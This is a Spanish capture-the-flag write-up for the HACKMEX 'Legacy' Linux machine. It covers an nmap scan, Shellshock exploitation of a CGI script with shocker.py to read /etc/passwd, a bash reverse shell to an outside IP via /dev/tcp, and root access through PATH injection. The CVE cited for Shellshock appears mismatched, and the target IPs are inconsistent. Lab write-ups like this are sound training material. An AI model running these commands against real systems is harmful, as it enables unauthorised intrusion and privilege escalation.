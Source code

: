 # Legacy - HACKMEX

**OS**: Linux   
**Dificultad**: Medium   
**Puntos**: 6,200   
**Solucionado por**: M41w4r3

## Resumen 
- SHELLSHOCK RCE
- PATH INJECTION 
## Nmap Scan
```
nmap -A -p- -oN legacy -T4 10.0.30.121
Warning: 10.0.50.121 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.0.50.121
Host is up (0.087s latency).
Not shown: 65499 closed ports, 35 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.34 ((Unix) mod_ssl/2.2.34 OpenSSL/1.0.1t DAV/2)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.2.34 (Unix) mod_ssl/2.2.34 OpenSSL/1.0.1t DAV/2
|_http-title: NCSA Legacy
```

## Enumeracion 
Al enumerar podemos encontrar una pagina que nos muestra que se esta ejecutando el aplicativo NCSA
Asi que al investigar un poco podemos encontrar una vulnerabilidad en los archivos cgi-bin
'''
CVE-1999-0045 
'''

## Explotar CGI-BIN

Al encontrar que podemos ejecutar codigo remotamente mediante CGI-BIN lo que se conoce como shellshock
encontre un exploit llamado shocker que nos permite automatizar el proceso del shellshock
En esta area encontramos diferentes scripts pero el que nos permitia explotar dicha vulnerabilidad era el archivo "date"

asi que el comando utilizado fue python 
```python
shocker.py  -H 10.0.30.121 --command "/bin/cat /etc/passwd" -c /cgi-bin/date
```
Despues de esto lo que ejecute fue una shell inversa con bash el comando utilizado fue : /bin/bash -i >& /dev/tcp/10.10.0.62/1111 0>&1
y asi pude obtener una reverse shell con el servidor

## Privilege Escalation 

identificamos un archivo llamado tftp en la carpeta de cgi-bin 
notamos que tiene permisos de root ademas de que es un archivo ejecutable "ELF" asi que lo ejecutamos

despues de eso identificamos que tenemos que hacer un path injection porque nos muestra un error relacionado a el ls asi que vamos a injectarle otra instruccion 
lo siguiente es crear un archivo en la carpeta de tmp : echo "/bin/sh" > ls -> esto nos permitira elevar privilegios para obtener el usuario root
despues realizamos el path injection con el siguiente comando : export PATH=/tmp/:$PATH
despues ejecutamos el archivo y nos da la shell de root

## Archivos utilizados 
*shocker.py*
## Referencias

https://www.trendmicro.com/vinfo/us/threat-encyclopedia/archive/security-advisories/cgi_nph_test_disclosure_exploit
https://github.com/nccgroup/shocker
